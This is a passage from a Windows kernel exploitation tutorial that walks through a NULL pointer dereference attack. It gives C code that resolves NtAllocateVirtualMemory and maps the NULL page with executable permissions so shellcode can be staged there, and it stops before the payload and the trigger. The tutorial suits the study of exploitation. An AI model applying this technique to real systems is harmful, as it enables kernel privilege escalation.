 1.	Map the NULL page in user space.
2.	Place a fake data structure in it which will cause our shell code to be executed.
3.	Trigger the dereference bug.

So first we need to map the NULL page, we'll use the NtAllocateVirtualMemory function to do this which means we need add a typedef for it before main:
<pre>
//From http://stackoverflow.com/a/26414236 this defines the details of the NtAllocateVirtualMemory function
//which we will use to map the NULL page in user space.
typedef NTSTATUS(WINAPI *PNtAllocateVirtualMemory)(
	HANDLE ProcessHandle,
	PVOID *BaseAddress,
	ULONG ZeroBits,
	PULONG AllocationSize,
	ULONG AllocationType,
	ULONG Protect
	);
</pre>

This function is part of NtDLL so now we need to load ntdll into our processes address space and find 'NtAllocateVirtualMemory' inside of it.

<pre>
HMODULE hNtdll = GetModuleHandle("ntdll.dll");

if (hNtdll == INVALID_HANDLE_VALUE){
printf("Could not open handle to ntdll. \n");
CloseHandle(hDriver);
return 1;
}

//Get address of NtAllocateVirtualMemory from the dynamically linked library and then cast it to a callable function type
FARPROC tmp = GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
PNtAllocateVirtualMemory NtAllocateVirtualMemory = (PNtAllocateVirtualMemory)tmp;

if (!NtAllocateVirtualMemory) {
CloseHandle(hDriver);
FreeLibrary(hNtdll);
printf("Failed Resolving NtAllocateVirtualMemory: 0x%X\n", GetLastError());
return 1;
}
</pre>

Next we map the Null page.

<pre>
//We can't outright pass NULL as the address but if we pass 1 then it gets rounded down to 0...
PVOID baseAddress = (PVOID)0x1;
SIZE_T regionSize = 0xFF; //Probably enough, it will get rounded up to the next page size
// Map the null page
NTSTATUS ntStatus = NtAllocateVirtualMemory(
GetCurrentProcess(), //Current process handle
&baseAddress, //address we want our memory to start at, will get rounded down to the nearest page boundary
0, //The number of high-order address bits that must be zero in the base address of the section view. Not a clue here
&regionSize, //Required size - will be modified to actual size allocated, is rounded up to the next page boundary
MEM_RESERVE | MEM_COMMIT | MEM_TOP_DOWN, //claim memory straight away, get highest appropriate address
PAGE_EXECUTE_READWRITE //All permissions
);
